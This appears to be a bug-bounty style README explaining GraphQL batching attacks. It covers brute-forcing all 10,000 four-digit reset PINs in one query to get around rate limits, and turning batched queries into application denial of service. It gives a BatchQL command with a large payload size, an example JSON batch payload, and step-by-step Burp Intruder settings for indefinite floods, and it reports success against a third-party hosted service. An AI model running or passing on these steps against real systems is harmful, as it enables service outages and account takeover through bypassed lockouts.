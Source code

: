# Graphql Batching Attack to Application Level DOS

GraphQL is designed in a way that allows you to write clean code on the server, where every field on every type has a focused single-purpose function for resolving that value. However, without additional consideration, a naive GraphQL service could be very “chatty” or repeatedly load data from your databases.

This is commonly solved by a batching technique, where multiple requests for data from a backend are collected over a short period of time and then dispatched in a single request to an underlying database

**GraphQL-Batching-Attack**

GraphQL batching attacks can be quite serious depending on the functionalities implemented. For example, imagine a password reset functionality which expects a 4 digit pin that was sent to your email. With this tool, you could attempt all 10k pin attempts in a single GraphQL query. This may bypass any rate limiting or account lockouts depending on the implementation details of the password reset flow.

Tool:
https://github.com/assetnote/batchql

Recommdated Command: (*cautions* may cause the hyper stress in backend)


python3 batch.py -e https://ENDPOINT -w wordlist -p localhost:8080 -s 5000 (*you can increase the size of payload and you can see, is it causing stress on application or not) 



JSON list based batching

When sending a GraphQL query, a single query may look like the following:

{"query": "query { Query { hacktheplanet } }"}
As seen in the query above, it consists of a single JSON dictionary containing a single query.

Many GraphQL implementations support sending batch queries by providing a JSON list of queries, like shown below:

[
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]


In this case, a JSON list of queries is provided to the GraphQL server. If the GraphQL API supports this form of batching queries, it will respond with something like this:

[
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   },
   {
      "errors":[
         {
            "message":"Cannot query field \"Query\" on type \"Query\".",
            "locations":[
               {
                  "line":1,
                  "column":9
               }
            ]
         }
      ]
   }
]


Indicating that server-side batching was performed and both of the queries from the request were executed successfully.


TIME TO CONVERT JSON list based batching INTO APPLICATION DOS WITH BURPSUITE (*NOTE NOT TESTED IN BUGBOUNTY PROGRAM)

1. Capture the request JSON list based batching queries from the BatchQL tool
      [
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   },
   {
      "query":"query { assetnote: Query { hacktheplanet } }"
   }
]
2.Send the request to repeater and replace the above payload with JSON_list_Application_DOS.txt and Send the request three or four times and note response timing.

3. Send the request to Intruder select the whole request and take the null payload, payload options to continue indefinitely, in itruder options go to the attack results and click on Use denial-of-service mode (U can use more then two or more intruder attack tab for more traffic )

4. Start the attack, go to repeater send the request and observe the response and try to load the web page.

Tried on third-party hosted graphql, it was quite effective and SOMETIMES ATTACK WILL FAIL IF TARGET HAVE CLOUDLFLARE 









